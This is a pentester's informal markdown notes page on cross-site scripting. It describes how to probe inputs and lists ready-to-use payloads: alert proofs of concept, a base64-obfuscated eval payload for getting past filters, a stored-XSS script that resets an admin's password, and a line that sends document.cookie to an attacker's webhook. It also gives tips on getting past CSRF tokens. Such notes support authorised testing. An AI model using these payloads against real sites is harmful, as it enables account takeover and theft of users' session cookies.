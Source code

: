 ```yaml
---
title: XSS
---
```


## What is this about?
Cross-Site scripting attacks. 
[This](https://en.wikipedia.org/wiki/Cross-site_scripting) is all the info you need to know, and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) are all the example you'll need.

## Couple basic stuff I usually do
To find a vuln input, these are the steps I follow on every field, this may sometimes include headers like the *User-Agent* ...
* Directly testing characters that might break things like {";'/\<>
* Testing unescaped version of those characters through whatever proxy I use
* Spamming XSS lists and checking if something goes wrong then finding which one worked 
* Running tech specific payloads

Now, except if I feel that something might work even though nothing did anything weird, I'll just try another page.

Once the vuln input is found this is what I usually go for depending on time left and breach vectors I have/may have on the engagement.

### The "Fuck it, I just need a screenshot"
```javascript
<script>alert('You done fucked up now!!')</script>
```

### The "Nah a screenshot will do, the PoC is there"
```javascript
<svg/onload=alert("It's a bird!? It's a plane!? No! It's an XSS!!")>
```

### The "I told you not to regex filter by hand last time..."
```javascript
<img onload="eval(atob('YWxlcnQoIkkgdG9sZCB5b3UgbGFzdCB0aW1lIHRvIGZpeCB0aGlzIHNoaXQgdGhlIGNvcnJlY3Qgd2F5Iik='))">
```
You get the point eh?

### I need to exploit this though
Yeah, sometimes you just need to reset the admin's password to connect right? I mean [CORS](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) is a thing nowadays...

Got a stored XSS? good! You might need to add extra headers to match whatever is going on through 
```javascript
<script>
    var xhr = new XMLHttpRequest();    
    xhr.open('POST', 'https://target/that-profile-page-I-need-to-exploit', true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.send('newpassword=Password1234&repeated-newpassword=Password1234');
</script>
```
You might need to add extra headers with *xhr.setRequestHeader()* to match whatever is going on, but the skeleton is there.

Oh the Whole CSRF thing? Yeah you're bypassing that if you're running it from the website itself. And if you aren't, you can always do a multistep request, i.e. get the CSRF-token by parsing the returned page from the first request and then run your password change and adding that value in the headers...

You could also send the session cookie to whatever [requestbin](http://requestbin.net/), [postbin](https://postb.in/), [webhook](https://webhook.site), or stuff you [built yourself](https://github.com/Runscope/requestbin). By running a polished version of
```javascript
document.write("<iframe src='https://your-webhook/'"+document.cookie+"></iframe>");
```
Oh noes, security protocols have been bypassed!
